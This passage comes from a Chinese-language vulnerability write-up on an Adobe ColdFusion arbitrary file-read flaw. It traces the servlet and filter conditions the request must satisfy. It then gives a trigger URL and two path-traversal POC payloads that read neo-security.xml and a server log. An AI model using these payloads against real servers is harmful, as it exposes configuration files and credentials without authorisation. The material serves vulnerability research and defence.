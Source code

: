 我们看到上面的调用了CfJspPage这个东西，响应给给用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7choz9dW2NMgBxFuJhy9UublkLibV8SNbXk8MDD1bYk9O1Yb4w7m1uDw/640?wx_fmt=png&from=appmsg "null")  
# 触发漏洞的绕过  
  
我们在，详细看一下这个漏洞触发的条件  
  
看一下安装路径下的/cfusion/wwwroot/WEB-INF/web.xml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7hWtawDB7ff73HJ37Y9I3ppQIwrGRcJjfwZUXCUeZcX55LjjrlxeI3Q/640?wx_fmt=png&from=appmsg "null")  
  
http://192.168.56.110:8500/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true访问文件的请求路径会触发 coldfusion.xml.rpc.CFCServlet 类来处理  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7gaKBtUrgXewPbPPlezJ2BJWoC4HyWnh4Ft8nZGSENlfqx3wJ8EKpGw/640?wx_fmt=png&from=appmsg "null")  
  
如果你们想看他是怎么发到，可以自行看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7AzqEXVPZwqJQghtQ4NyP8IBZW2YyPsT5raSawO9GRU3OFVSQcXhkRg/640?wx_fmt=png&from=appmsg "null")  
  
请求的后缀 .cfc会到ComponentFilter来处理  
  
主要看一下子ComponentFilter  
  
1、请求后缀不能是cfr  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7hAcmqlKMFwLxElWibQ2LvQWfPO754R4zvJ3XXgdI9RJx34W0aib79zaQ/640?wx_fmt=png&from=appmsg "null")  
  
2、method参数不能是空  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7v0rM7kR8KnJxHQtyG4Ub0mVO7yfCaMxPqJJ4WLxSObicukxDsmibxZeA/640?wx_fmt=png&from=appmsg "null")  
  
3、_cfclient参数是true或者是yes  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7HcBDCe1AHydJLwmLXRIvQf2SoWICMQQ3l4SgTDLKesxp3hNqrlW6pw/640?wx_fmt=png&from=appmsg "null")  
  
image-20240829160834831  
  
为什么呢看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7A9Ric7OkSwqXZPCkPvzG7LpDbNWuSfnjXnk0CDVicG9gp3VQKugNYM9w/640?wx_fmt=png&from=appmsg "null")  
  
最终达到了文件读取效果  
# 打出最好的漏洞效果  
## 判断漏洞是否存在（文件读取）  
  
1、针对windows和linux有回显通用判断POC  
```
_variables={"_metadata":{"classname":"../lib/neo-security.xml","_variables":[]}}
_variables={"_metadata":{"classname":"l/../logs/coldfusion-out.log"},"_variables":[]}
```  
  